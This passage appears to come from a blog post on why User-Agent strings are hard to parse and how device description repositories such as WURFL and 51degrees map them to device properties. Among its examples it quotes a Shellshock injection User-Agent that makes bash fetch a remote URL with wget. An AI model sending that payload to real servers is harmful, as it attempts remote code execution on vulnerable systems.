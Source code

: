 And some annoying ones:

- LAVA.DISCOVER 137*.HEXING60A_COSMOS_11B_HW
  (MRE/3.1.00(1500);MAUI/308;BDATE/2013/11/20
  11:14;LCD/320480;CHIP/MT6260;KEY/Reduced;TOUCH/1;CAMERA/0;SENSOR/0;DEV/HEXING60A_COSMOS_11B_HW;WAP
  Browser/MAUI (HTTP
  PGDL;HTTPS);GMOBI/001;MBOUNCE/002;MOMAGIC/003;INDEX/004;SPICEI2I/005;GAMELOFT/006;MOBIM/007;KKF)
  11BW1308 Release/2013.11.20 WAP Browser/MAUI (HTTP PGDL; HTTPS)
  Profile/Profile/MIDP-2.0 Configuration/CLDC-1.1 Q03C1-2.40 en-US
- shellshocker='() { wget
  http://yourschool.net/.tmp/frogclog.php?http://www.ebay.com/ago-rari-1-43/1004004009042189/;
  }' bash -c shellshocker

So making a conclusion on which part denotes the product name, version, etc.
is a fuzzy, tedious and error-prone task. That being said, there is another
thing we can do here! Every User-Agent is more or less unique to the device
that the software runs on. Hence, if we can come up with a database such that
User-Agent strings are mapped to devices, we can employ this database to find
the device of a certain User-Agent. This is where the term [Device Description
Repository](http://en.wikipedia.org/wiki/Device_Description_Repository) (DDR)
kicks in:

> The Device Description Repository is a concept proposed by the Mobile Web
> Initiative Device Description Working Group (DDWG) of the World Wide Web
> Consortium. The DDR is supported by a standard interface and an initial core
> vocabulary of device properties. Implementations of the proposed repository
> are expected to contain information about Web-enabled devices (particularly
> mobile devices).

The Rise of DDR
===============

[WURFL](http://en.wikipedia.org/wiki/WURFL) (Wireless Universal Resource FiLe)
was the first community effort focused on mobile device detection and dates
back to 2007. While WURFL was initially released under an "open source /
public domain" license, in June 2011, project's founders formed ScientiaMobile
to provide commercial mobile device detection support and services using
WURFL. As of now, the [ScientiaMobile](http://www.scientiamobile.com/) WURFL
APIs are licensed under a dual-license model, using the AGPL license for
non-commercial use and a proprietary commercial license. In a world dominated
by capitalism, the current version of the WURFL database itself is no longer
open source. Inspired by WURFL and motivated by the gap in the market, it did
not take much for alternative companies to emerge, including, but is not
limited to, [DeviceAtlas](https://deviceatlas.com/), [Handset
Detection](http://www.handsetdetection.com/), and
[51degrees](http://51degrees.com/).

So how far one can go using a DDR to detect the properties of a device by just
looking at the User-Agent header? Below is a sample output that I collected
from [51degrees](http://51degrees.com/):

- HardwarePlatform
    - Camera
        - Has3DCamera: False
        - HasCamera: False
    - Connectivity
        - HasNFC: False
    - Device
        - DeviceType: Desktop
    - Inputs
        - HasKeypad: False
        - HasQwertyPad: True
        - HasTouchScreen: False
        - HasTrackPad: True
        - HasVirtualQwerty: False
    - Name
        - HardwareFamily: Macintosh